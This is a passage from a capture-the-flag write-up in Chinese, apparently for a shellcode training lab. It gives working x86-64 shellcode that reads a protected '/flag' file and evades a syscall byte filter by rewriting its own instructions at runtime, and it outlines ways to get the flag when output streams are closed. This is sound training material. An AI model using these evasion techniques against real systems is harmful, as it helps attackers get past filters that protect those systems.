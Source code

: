```
        mov edx, 0
        mov r10, 0x100
        syscall

        mov eax, 60
        mov edi, 0
        syscall
m:
        .string "/flag"
```

## level 5, 6
>*This challenge requires that your shellcode does not have any `syscall`, `sysenter`, or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.*

level 5会过滤shellcode中的syscall, sysenter, int等命令阻止你调用API. 因为内存是可写的, 所以绕过这种过滤的办法就是通过`rip`计算出偏移, 然后对shellcode进行动态修改将下一条要执行的指令修改成`syscall`, `syscall`的op code是`0f05`, 我这里选择的是`clts`命令, 它的op code是`0f06`, 只要将第二个byte减一就可以将它变成`syscall`.

level 6的话是会移除shellcode前`4096(0x1000)`byte的写权限, 只要用nop填充一下就可以了.
```
.global _start
_start:
.intel_syntax noprefix
        mov rax, 0x67616c662f
        mov [rdi], rax
        mov rsi, 0
        mov rdx, 0
        mov rax, 2
        dec byte ptr [rip + 1]
        clts

        mov rdi, 1
        mov rsi, rax
        mov rax, 40
        mov rdx, 0
        mov r10, 0x100
        dec byte ptr [rip + 1]
        clts

        mov rax, 60
        mov rdi, 0
        dec byte ptr [rip + 1]
        clts
```

## level 7
level 7是将`/dev/stdin`, `/dev/stdout`, `/dev/stderr`都关闭了, 这样就无法通过标准输出获取flag, 不过仍然有好多种方式, 第一种是读`/flag`文件, 然后写到其他文件里去, 第二种就是直接call`chmod`, 修改`/flag`文件的权限.
